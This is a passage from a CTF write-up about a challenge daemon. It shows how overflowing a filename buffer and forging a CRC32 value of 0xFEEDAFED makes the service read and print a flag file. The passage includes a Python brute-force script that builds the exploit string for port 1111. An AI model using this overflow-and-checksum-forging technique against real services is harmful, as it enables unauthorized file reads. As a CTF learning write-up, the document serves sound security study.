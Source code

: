 And you&#8217;ll be tempting to rename `static_buffer` to `crc32_table`. But that&#8217;s beside the point. 
Now we go back to the `main` function. After taking CRC32 value of the whole read `input_buffer`, the value is compared with `0xFEEDAFED`. If it is equal, then the `filename` is open, read and written out.

## Exploit it

Let&#8217;s gather what we&#8217;ve got. First we are able to overflow the `filename` buffer. Second, if the CRC value matches `0xFEEDAFED`, the file identified by `filename` will be opened, read, and written out to `stdout`. And there lies our only challenge, to construct a buffer with CRC32 value matching `0xFEEDAFED`.

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">import zlib
buffer = "a" * (0x258 - 0x48) + "/etc/flags/daemon01.txtx00"

&lt;b&gt;def&lt;/b&gt; fix_crc(buffer, target_crc):
  buffer_crc = zlib.crc32(buffer)
  charset = [chr(x) &lt;b&gt;for&lt;/b&gt; x &lt;b&gt;in&lt;/b&gt; range(256)]
  fix = ['a'] * 4
  crc = [0] * 4
  &lt;b&gt;for&lt;/b&gt; fix[0] &lt;b&gt;in&lt;/b&gt; charset:
    crc[0] = zlib.crc32(fix[0], buffer_crc)
    &lt;b&gt;for&lt;/b&gt; fix[1] &lt;b&gt;in&lt;/b&gt; charset:
      crc[1] = zlib.crc32(fix[1], crc[0])
      &lt;b&gt;for&lt;/b&gt; fix[2] &lt;b&gt;in&lt;/b&gt; charset:
        crc[2] = zlib.crc32(fix[2], crc[1])
        &lt;b&gt;for&lt;/b&gt; fix[3] &lt;b&gt;in&lt;/b&gt; charset:
          crc[3] = zlib.crc32(fix[3], crc[2])
          &lt;b&gt;if&lt;/b&gt; (crc[3] &amp; 0xFFFFFFFF) == target_crc:
            &lt;b&gt;return&lt;/b&gt; ''.join(fix)

buffer = buffer + fix_crc(buffer, 0xFEEDAFED)
</pre>

Behold our super-elite Python code! It will generate an exploit string ready to be sent to port 1111. Of course it runs damn slow. You are better off applying the reverse CRC32 described by [anarchriz][1].

## Observation

This daemon is similar to last year HITB 2006 KL CTF. Last year the CRC32 is a bit different, it used the same lookup table but initial value was not the standard `0xFFFFFFFF` and there was no negation at the end. This year, the CRC32 is the standard CRC32 used in Zlib.

 [1]: http://www.woodmann.com/fravia/crctut1.htm